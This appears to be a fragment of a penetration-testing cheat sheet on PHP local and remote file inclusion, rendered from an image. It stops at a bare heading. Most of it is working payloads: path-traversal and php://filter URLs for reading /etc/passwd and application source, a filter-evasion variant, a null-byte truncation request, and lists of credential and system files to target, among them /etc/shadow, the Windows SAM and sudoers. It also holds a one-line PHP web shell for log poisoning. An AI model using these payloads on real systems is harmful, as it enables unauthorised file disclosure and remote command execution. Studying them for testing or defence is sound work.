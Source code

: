     -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root

    -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt

    -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    -   For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
        
        */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"  
        
        `include($_REQUEST["file"].".php");`

    -   Remote File Inclusion  
    